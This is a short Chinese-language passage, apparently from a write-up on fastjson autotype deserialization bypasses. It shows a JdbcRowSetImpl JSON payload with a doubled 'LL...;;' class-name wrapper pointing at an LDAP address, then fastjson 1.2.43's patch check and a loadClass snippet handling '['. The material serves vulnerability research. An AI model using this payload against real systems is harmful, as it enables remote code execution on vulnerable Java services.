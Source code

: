 **前提：需要开启autotype**

```javascript
{
    "@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
    "dataSourceName":"ldap://127.0.0.1:2357/Command8",
    "autoCommit":true
}
```





### fastjson=1.2.43

针对双写绕过套了个子判断。

```javascript
if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
                if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(1)) * 1099511628211L == 655656408941810501L) {
                    throw new JSONException("autoType is not support. " + typeName);
                }

                className = className.substring(1, className.length() - 1);
            }
```

TypeUtils.loadClass 中除了对`L;`进行判断，还有对`[`进行了判断

```javascript
} else if (className.charAt(0) == '[') {
    Class<?> componentType = loadClass(className.substring(1), classLoader);
    return Array.newInstance(componentType, 0).getClass();
} 
```
